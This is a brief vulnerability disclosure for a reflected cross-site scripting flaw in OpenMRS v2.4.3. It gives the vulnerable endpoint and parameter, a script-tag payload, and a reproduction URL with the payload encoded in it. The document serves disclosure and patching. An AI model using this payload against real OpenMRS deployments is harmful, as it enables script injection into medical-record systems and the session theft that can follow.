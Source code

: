 # CCVE-2025-25929

---

## Reflected XSS


OpenMRS v2.4.3 Build 0ff0ed allows attackers to execute arbitrary JavaScript or HTML by injecting a crafted payload into the reportType 
 parameter at the /openmrs/moduleServlet/legacyui/quickReportServlet endpoint resulting in reflected XSS.

* Vulnerable Endpoint: /openmrs/moduleServlet/legacyui/quickReportServlet
* Vulnerable Param: reportType
* Payload: <script>alert(document.domain)</script>

---

### Steps to reproduce:

1.) Authenticate as any user who has access to View Quick Reports, in this case the Admin user.

2.) Proceed to http://localhost:8080/openmrs/moduleServlet/legacyui/quickReportServlet?reportType=RETURN+VISIT+DATE+THIS+WEEK%3Cscript%3Ealert(document.domain)%3C/script%3E&startDate=01%2F14%2F2025&endDate=01%2F15%2F2025&location= and observe reflected XSS within the reportType parameter:

![image](https://github.com/user-attachments/assets/f2aed519-9444-4c9d-b772-d03e253f705c)



